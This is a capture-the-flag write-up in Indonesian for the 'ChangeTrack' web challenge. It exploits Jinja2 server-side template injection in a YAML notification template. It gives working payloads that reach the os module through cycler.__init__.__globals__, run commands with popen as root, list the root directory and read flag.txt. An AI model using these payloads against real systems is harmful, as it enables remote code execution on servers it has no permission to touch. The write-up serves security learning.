

# ChangeTrack — NFX CTF Write Up

**Category:** Web  
**Challenge:** ChangeTrack  
**Author:** Ariaf

## 1. Recon

Pertama, aku akses website ChangeTrack dan mulai mengecek fitur yang tersedia. Di aplikasi terdapat halaman untuk mengedit konfigurasi watcher.

Pada halaman tersebut ditemukan konfigurasi dalam format YAML, termasuk bagian `notification` yang memiliki field `template`.

Karena field template menerima input dari user dan kemungkinan diproses oleh template engine, aku coba menguji apakah ada vulnerability SSTI.

## 2. Testing SSTI

Aku memasukkan ekspresi sederhana Jinja2 ke bagian `template`:

```jinja2
{{ 7*7 }}
```

Setelah konfigurasi disimpan dan tombol **Save Changes & Test** ditekan, aku mengecek request yang masuk ke Webhook.site.

Hasilnya:

```text
CHANGE_TRACK_BEGIN
SSTI_RESULT: 49
CHANGE_TRACK_END
```

Karena hasilnya berubah menjadi `49`, berarti input template dieksekusi oleh Jinja2. Jadi SSTI berhasil ditemukan.

## 3. Access Python Object

Selanjutnya aku coba akses object bawaan Jinja2, yaitu `cycler`, untuk melihat apakah bisa mengakses Python internal.

Payload:

```jinja2
PROBE_BEGIN
cycler={{ cycler }}
init={{ cycler.__init__ }}
os={{ cycler.__init__.__globals__.get('os') }}
PROBE_END
```

Hasil dari Webhook.site:

```text
PROBE_BEGIN
cycler=<class 'jinja2.utils.Cycler'>
init=<function Cycler.__init__ at ...>
os=<module 'os' (frozen)>
PROBE_END
```

Dari hasil tersebut, object `os` berhasil diakses melalui `cycler.__init__.__globals__`.

## 4. Getting RCE

Setelah berhasil mendapatkan module `os`, aku coba menjalankan command sederhana menggunakan `popen()`.

Payload:

```jinja2
{{ cycler.__init__.__globals__.get('os').popen('id').read() }}
```

Hasil:

```text
RCE_TEST_BEGIN
Command: id
Result: uid=0(root) gid=0(root) groups=0(root)
RCE_TEST_END
```

Ternyata command berhasil dijalankan dan proses berjalan sebagai `root`.

## 5. Finding the Flag

Selanjutnya aku coba melihat isi direktori root menggunakan `os.listdir()`.

Payload:

```jinja2
{{ cycler.__init__.__globals__.get('os').listdir('/') }}
```

Hasil:

```text
DIRECTORY_BEGIN
['bin', 'boot', 'dev', 'etc', 'home', 'lib', 'lib64',
'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin',
'srv', 'sys', 'tmp', 'usr', 'var', 'app', '.dockerenv',
'flag.txt']
DIRECTORY_END
```

Terlihat ada file `flag.txt` di direktori root.

Aku kemudian membaca file tersebut menggunakan payload:

```jinja2
{{ cycler.__init__.__globals__.get('os').popen('cat /flag.txt').read() }}
```

Flag berhasil didapatkan.

## 6. Flag

```text
NFX{ch4ng3_d3t3ct10n_j1nj4_sst1_oob_cve_2024_32651_2026}
```


